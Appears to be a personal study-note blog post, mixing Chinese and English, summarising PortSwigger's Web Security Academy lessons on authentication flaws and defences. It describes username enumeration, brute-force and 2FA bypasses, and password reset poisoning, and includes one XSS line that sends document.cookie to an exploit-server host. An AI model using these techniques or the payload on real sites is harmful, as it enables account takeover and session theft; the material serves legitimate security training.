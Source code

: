 ```yaml
---
layout: article
title: Authentication--Web Security Academy 2
mathjax: true
key: a00004	
cover: /bkgs/1.png
modify_date: 2021-08-6
show_author_profile: true
excerpt_type: html
tag: 
- Academy
- Authentication
mode: immersive
header:
  theme: dark
article_header:
  type: overlay
  theme: dark
  background_color: '#203028'
  background_image:
    gradient: 'linear-gradient(135deg, rgba(34, 139, 87 , .4), rgba(139, 34, 139, .4))'
    src: /docs/assets/images/cover3.jpg
---
```


# 前言

这篇是Web Security Academy的Authentication部分
<!--more-->
https://portswigger.net/web-security/sql-injection/cheat-sheet)

# 身份鉴定三因素

There are three authentication factors into which different types of authentication can be categorized:

- Something you **know**, such as a password

- Something you **have**, that is, a physical object like a mobile phone or security token

- Something you **are** or do, for example, your biometrics or patterns of behavior

  

# Vulnerabilities in password-based login

## Username enumeration

you should pay particular attention to any differences in:

**Status codes:like 200 302** 

**Error messages**: any difference , even a ','

**Response times**: set the password to a long long one ,check the response time.

you can change X-Forwarded-For to change your ip (or Host to localhost)

## Flawed brute-force protection

### IP block

- **change it**（云函数hhh）
- **login and logout** **，有些登陆进去后会重置失败次数**
- **一次传多个密码**

### **account locking**

- **在被锁次数内枚举，可能有些返回会不同**

# Vulnerabilities in multi-factor authentication

同一因素验证两边并不是两步验证

LIKE Email-based 2FA

一般来讲需要从某个设备生成code而不是从网络上接收code

bypass：

- 网站不一定会验证第二步是否成功，可以直接输入路径尝试  /my-account
- 利用逻辑漏洞绕过第一步或第二步（比如用a登陆b，修改a的token为b之类）
- 即便设置了验证次数，仍然可以通过宏来反复登陆爆破验证码（如果每次都重新生成一次验证码呢？）

# Vulnerabilities in other authentication mechanisms

## Keeping users logged in

if the cookie is easy to guess , like (name:pass(md5))base63, it's easy to brute-force.

XSS could also be used , like 

```javascript
<script>document.location='//your-exploit-server-id.web-security-academy.net/'+document.cookie</script>
```

to steal cookie and decode it 

## Resetting user passwords

### Sending passwords by email

### Resetting passwords using a URL

- token is not working , just change the user and it would work
- change X-Forwarded-Host: your-exploit-server-id , lure the victim to send you the email received from server , and replace your token with his to change his     passwd

### Password reset poisoning

- manipulates a vulnerable website into generating a password reset link pointing to a domain under their control(like change XFH above)

- 即想办法生成并诱导victim点击指向hacker服务器从目标服务器发出的带有token的链接

（Host: acb31f7e1e4ece4480c60b980199009e.web-security-academy.ne）

## Changing user passwords

- Typically, changing your password involves entering your current password and then the new password twice

- you might be able to change others passwd by edit your post infos , and differ by the response(right passwd shows two new passwd are not same , error passwd shows error passwd)

# Vulnerabilities in third-party authentication mechanisms

oauth authentication(see other notes)

# How to secure your authentication mechanisms

- Take care with  user credentials

- - redirecting  any attempted HTTP requests to HTTPS 
  - make sure that no username or email addresses are disclosed either through publicly accessible profiles or reflected in HTTP responses

- Don't count on users for security

- Prevent username enumeration

- - Regardless  of whether an attempted username is valid,use identical, generic error messages, and make sure they really are identical. 
  - always return the same HTTP status code with each login request
  - make the response times in different scenarios as indistinguishable as possible.

- Implement robust brute-force protection

- -  implement strict, IP-based user rate limiting

- - require the user to complete a CAPTCHA test with every login attempt after a certain limit is reached.

- Triple-check your verification logic

- Don't forget supplementary functionality

- - Remember  that a password reset or change is just as valid an attack surface as the  main login mechanism and, consequently, must be equally as robust.

- Implement proper multi-factor authentication

- - Remember  that verifying multiple instances of the same factor is not true  multi-factor authentication（Sending verification codes  via email is essentially just a more long-winded form of single-factor  authentication.）

- - Ideally, 2FA should be  implemented using a dedicated device or app that generates the  verification code directly

- - Finally, just as with the main  authentication logic, make sure that the logic in your 2FA checks is  sound so that it cannot be easily bypassed.
